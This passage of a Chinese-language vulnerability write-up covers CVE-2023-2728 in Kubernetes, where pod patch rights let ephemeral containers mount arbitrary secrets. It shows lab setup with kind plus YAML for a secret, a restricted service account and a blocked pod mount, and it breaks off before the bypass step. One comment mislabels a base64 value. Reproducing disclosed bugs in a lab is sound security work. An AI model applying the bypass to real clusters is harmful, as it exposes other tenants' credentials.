 ### 2. 影响
如果用户具备对pod的patch权限，则可以通过创建临时容器挂载任意secret

## 四、防御
更新到修复版本

## 五、漏洞复现

### 1. 复现环境
- 创建包含漏洞版本的集群
```shell
kind create cluster -n cve-2023-2728 --image kindest/node:v1.27.1
```

### 2. 复现过程
- 创建ServiceAccount和Secret
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: my-secret
  namespace: default
type: Opaque
data:
  username: YWRtaW4=  # base64 encoded value for 'admin'
  password: MWYyZDFlMmU2N2Rm  # base64 encoded value for 'password'
---
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
```
- 由于`test`账户没有指定`Secrets`列表，故使用该账户创建的`Pod`无法挂载`my-secret`，尝试挂载会返回错误
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    volumeMounts:
      - mountPath: /etc/my-secret
        name: sc
  volumes:
    - name: sc  
      secret:
        secretName: my-secret
```
![](./error.png)
- 正常创建`Pod`，不挂载任何`Secrets`
```yaml
apiVersion: v1
```